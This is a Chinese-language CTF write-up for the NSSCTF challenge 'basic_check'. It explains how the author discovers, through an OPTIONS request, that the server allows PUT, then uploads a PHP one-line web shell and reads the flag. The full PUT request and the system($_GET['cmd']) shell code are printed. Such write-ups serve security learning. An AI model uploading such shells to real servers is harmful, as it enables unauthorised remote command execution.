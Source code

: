 # 【NSSRound#1 Basic】basic_check


# [NSSRound#1 Basic]basic_check

## 思路
* 一来就是一句让我自己找

  ```
   &lt;?php highlight_file(__FILE__);// Welcome to NSSCTF Round#1 Basic, have fun. 
  ```

* dirsearch 啥也没有，爆破路径没有办法

* 剩下就考虑相应的数据包有没有可疑的东西，也未发现

* 查找看到有师傅使用了OPTIONS方法这让我想起来开发的预检请求，用于检测服务器允许的http方法

  `-I`参数：向服务器发出 HEAD 请求，然会将服务器返回的 HTTP 标头打印出来。
  `-x`参数：指定 HTTP 请求的代理

  ```
  curl -I -X OPTIONS &#34;http://node4.anna.nssctf.cn:28059/index.php&#34;
  ```

  &gt; 但是有个问题是在搞的时候不知道为啥如果不加index.php就无法出方法，待考证原因

* 发现有PUT方法在里面

  PUT、DELETE请求本身最初是用来进行文件管理的

  **如果为进行鉴权处理的话就会任意执行修改和删除**

  在这里我们用这个来传一个文件来执行system命令，或者一句话木马都行。这里使用了执行system命令

  ```
  PUT /f1.php HTTP/1.1
  Host: node4.anna.nssctf.cn:28059
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
  Accept: text/html,application/xhtml&#43;xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Connection: close
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  Content-Length: 32
  
  &lt;?php
  system($_GET[&#39;cmd&#39;]);
  ?&gt;
  ```

  传入一个f1.php文件，内容为：

  ```
  &lt;?php
  system($_GET[&#39;cmd&#39;]);
  ?&gt;
  ```

* 执行命令`cat /flag`得flag


## 总结
* HTTP协议
* 中间件攻击

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-nssround%231-basicbasic_check/  

